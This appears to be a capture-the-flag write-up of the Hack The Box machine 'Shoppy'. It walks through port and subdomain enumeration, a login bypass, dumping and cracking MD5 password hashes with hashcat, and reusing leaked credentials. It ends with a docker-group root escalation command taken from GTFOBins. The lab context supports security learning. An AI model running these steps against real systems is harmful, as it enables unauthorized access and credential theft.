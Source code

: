 # Shoppy
https://app.hackthebox.com/machines/Shoppy

## Port scan

### Tool used: nmap
<br>

```
nmap -p- shoppy.htb

Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-17 11:24 CST
Nmap scan report for shoppy.htb (10.10.11.180)
Host is up (0.060s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat

Nmap done: 1 IP address (1 host up) scanned in 40.15 seconds
```

First, we take a look at the website:<br><br>

![web](./docs/shoppy/shoppy_01_web.png)

Nothing exciting here, so we run *gobuster* to look for subdirectories and subdomains on the host:<br><br>

```
gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================

[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s

===============================================================
2022/11/17 11:27:34 Starting gobuster in directory enumeration mode
===============================================================

/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]              
/admin                (Status: 302) [Size: 28] [--> /login]   
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/Login                (Status: 200) [Size: 1074]              
/js                   (Status: 301) [Size: 171] [--> /js/]    
/fonts                (Status: 301) [Size: 177] [--> /fonts/] 
/Admin                (Status: 302) [Size: 28] [--> /login]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
```

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 -u shoppy.htb

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb
[+] Method:       GET
[+] Threads:      50
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/11/17 12:20:52 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
                                                       
===============================================================
2022/11/17 12:22:40 Finished
===============================================================
```

The "/login" page presents us with a (as you probably guessed) login prompt:<br><br>

![login](./docs/shoppy/shoppy_02_login.png)

This login prompt was easily bypassed using some simple SQL logic:<br><br>

![bypass](./docs/shoppy/shoppy_03_bypass.png)

Once in, there was nothing exciting. However, there was an option to search for users. Using the same logic for bypassing the login, we are able to export some credentials in JSON format:<br><br>

```json
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

Throwing the MD5 hash for "josh" into *hashcat* produced an almost immediate result:<br><br>

```
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt -O
hashcat (v6.1.1) starting...

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

6ebcea65320589ca4f2f1ce039975995:remembermethisway
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: 6ebcea65320589ca4f2f1ce039975995
Time.Started.....: Thu Nov 17 12:17:19 2022 (0 secs)
Time.Estimated...: Thu Nov 17 12:17:19 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2818.1 kH/s (0.74ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 815127/14344385 (5.68%)
Rejected.........: 23/815127 (0.00%)
Restore.Point....: 811031/14344385 (5.65%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: reyna! -> ramon51

Started: Thu Nov 17 12:17:02 2022
Stopped: Thu Nov 17 12:17:21 2022
```

Now, we are able to login to "mattermost.shoppy.htb" using the credentials for "josh". After poking around the site, we found a "Deploy Machine" page which displayed a chat conversation between 2 users. In this conversation were some credentials for the machine:<br><br>

![deploy](./docs/shoppy/shoppy_05_deploy.png)

We were able to login with "jaeger" and obtain the users flag:

**user.txt**

```
e517df9f0da00f98e8fbd003fc422ae3
```

Next, we see what kind of privileges we have:<br><br>

```
sudo -l

[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

Running *password-manager* (using "sudo -u deploy /home/deploy/password-manager") asks for a master password. Using *cat*, we can find the necessary strings in the program to give us a hint:<br><br>

```
cat password-manager

Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !
```

Using the discovered password with "password-manager" resulted in some more credentials:<br><br>

```
sudo -u deploy /home/deploy/password-manager

Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

From here, we switch to the "deploy" user and execute LinEnum. It shows that *docker* is running, and we are a member of the "docker" group:<br><br>

![docker](./docs/shoppy/shoppy_06_docker.png)

A quick look at GTFOBins (https://gtfobins.github.io/gtfobins/docker/) shows that we can get a root shell with *docker*:<br><br>

```
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# id

uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

From here, we can capture the root flag:

**root.txt**

```
9e4d1c8137fed567940080eefaf90b30
```